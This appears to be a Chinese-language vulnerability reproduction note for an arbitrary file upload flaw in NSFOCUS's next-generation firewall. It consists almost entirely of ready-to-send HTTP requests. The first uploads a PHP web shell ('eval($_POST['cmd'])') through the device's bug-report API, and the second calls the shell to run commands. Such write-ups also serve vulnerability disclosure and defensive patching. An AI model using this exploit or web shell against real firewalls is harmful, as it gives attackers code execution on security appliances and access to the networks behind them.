 #### 影响范围

下一代防火墙

#### 漏洞概述

绿盟下一代防火墙任意文件上传

#### 漏洞复现

上传文件

```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host:

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"

<?php eval($_POST['cmd']);?>
--4803b59d015026999b45993b1245f0ef--
```

执行命令：
```
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71

cmd=phpinfo();
```







